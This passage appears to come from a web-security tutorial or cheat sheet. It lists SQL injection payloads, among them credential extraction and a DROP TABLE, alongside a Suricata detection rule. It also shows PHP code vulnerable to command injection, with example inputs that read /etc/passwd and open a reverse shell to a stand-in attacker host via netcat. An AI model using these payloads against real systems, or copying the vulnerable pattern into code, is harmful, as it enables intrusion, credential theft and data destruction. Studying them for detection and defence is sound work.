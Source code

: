 **Advanced SQL Injection:**
```sql
-- Union-based
' UNION SELECT username,password FROM admin_users--

-- Time-based blind
' AND IF(1=1, SLEEP(5), 0)--

-- Boolean-based blind
' AND (SELECT COUNT(*) FROM users) > 10--

-- Stacked queries
'; DROP TABLE users;--
```

**Suricata detect SQL Injection:**
```
alert http any any -> any any (
  msg:"SQL Injection - UNION";
  flow:established,to_server;
  content:"union"; nocase; http_uri;
  content:"select"; nocase; http_uri;
  classtype:web-application-attack;
)
```

---

**2. Command Injection (OS Command Injection):**

**Vulnerable code:**
```php
$ip = $_GET['ip'];
system("ping -c 4 " . $ip);
```

**Command Injection:**
```
GET /ping?ip=8.8.8.8; cat /etc/passwd
Executed: ping -c 4 8.8.8.8; cat /etc/passwd

GET /ping?ip=8.8.8.8 | nc attacker.com 4444 -e /bin/bash
→ Reverse shell
```

**Injection characters:**
- `;` - Command separator
- `|` - Pipe
- `||` - OR operator
- `&` - Background
- `&&` - AND operator
- `$()` - Command substitution
- `` `cmd` `` - Command substitution
- `\n` - Newline

---
